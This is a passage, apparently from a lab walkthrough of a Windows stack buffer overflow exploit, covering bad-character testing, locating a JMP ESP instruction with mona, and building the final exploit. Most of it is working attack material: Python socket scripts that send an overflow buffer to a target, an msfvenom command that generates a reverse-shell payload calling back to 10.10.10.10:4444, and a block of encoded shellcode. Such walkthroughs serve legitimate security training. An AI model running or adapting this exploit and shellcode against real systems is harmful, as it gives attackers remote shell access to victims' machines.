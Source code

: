 ```python
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

buffer = "A" * 2288    # Offset
buffer += "B" * 4      # EIP
buffer += badchars     # Testing for bad chars

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.10.10.10', 9999))
s.send(buffer)
s.close()
```

### 5. Finding a JMP ESP Instruction
```bash
# In Immunity Debugger
!mona modules
!mona find -s "\xff\xe4" -m module.dll
```

### 6. Generating Shellcode
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f python -b "\x00\x0a\x0d" -v shellcode
```

### 7. Final Exploit
```python
#!/usr/bin/python
import socket
import struct

# Shellcode (msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f python -b "\x00\x0a\x0d")
shellcode = (
"\xb8\x8a\x24\xa5\x57\xda\xd8\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1"
"\x52\x31\x42\x12\x83\xea\xfc\x03\x1a\x93\xd1\x95\x66\x43\x97"
"\x56\x96\x94\xf8\xdf\x73\xa5\x38\xbb\xf0\x96\x88\xcf\x54\x1b"
"\x62\x9d\x4c\xa8\x06\x0a\x63\x19\xac\x6c\x4a\x9a\x9d\x4d\xcd"
"\x18\xdc\x81\x2d\x20\x2f\xd4\x2c\x65\x52\x15\x7c\x3e\x18\x88"
"\x90\x4b\x54\x11\x1b\x07\x78\x11\xf8\xd0\x7b\x30\xaf\x6b\x22"
"\x92\x4e\xbf\x5e\x9b\x48\xdc\x5b\x55\xe3\x16\x17\x64\x25\x67"
"\xd8\xcb\x08\x47\x2b\x15\x4d\x60\xd4\x60\xa7\x92\x69\x73\x7c"
"\xe8\xb5\xf6\x66\x4a\x3d\xa0\x42\x6a\x92\x37\x01\x60\x5f\x33"
"\x4d\x65\x5e\x90\xe6\x91\xeb\x17\x28\x10\xaf\x33\xec\x78\x6b"
"\x5d\xb5\x24\xda\x62\xa5\x86\x83\xc6\xae\x2b\xd7\x7a\xed\x23"
"\x14\xb7\x0d\xb4\x32\xc0\x7e\x86\x9d\x7a\xe8\xaa\x56\xa5\xef"
"\xcd\x4c\x11\x7f\x30\x6f\x62\x56\xf7\x3b\x32\xc0\xde\x43\xd9"
"\x10\xde\x91\x4e\x40\x70\x4a\x2f\x30\x30\x3a\xc7\x5a\xbf\x65"
"\xf7\x65\x15\x0e\x92\x9c\xfe\xf1\xcb\x9c\x12\x9a\xc9\x9c\x15"
"\x07\x47\x7a\x7f\x67\x01\xd5\x17\x1e\x08\xad\x86\xdf\x86\xc8"
"\x89\x54\x25\x2d\x47\x9d\x40\x3d\x30\x6d\x1f\x1f\x97\x72\xb5"
"\x37\x7b\xe0\x52\xc7\xf2\x19\xcd\x90\x53\xef\x04\x74\x4e\x56"
"\xbf\x6a\x93\x0e\xf8\x2e\x48\xf3\x07\xaf\x1d\x4f\x2c\xbf\xdb"
"\x50\x68\xeb\xb3\x06\x26\x45\x72\xf1\x88\x3f\x2c\xae\x42\xd7"
"\xa9\x9c\x54\xa1\xb5\xc8\x22\x4d\x07\xa5\x72\x72\xa8\x21\x73"
"\x0b\xd4\xd1\x7c\xc6\x5c\xf1\x9e\xc2\x69\x9a\x06\x97\xd3\xc7"
"\xb8\x42\x17\xfe\x3a\x66\xe8\x05\x22\x03\xed\x42\xe4\xf8\x9f"
"\xdb\x81\xfe\x0c\xdb\x83"
)

```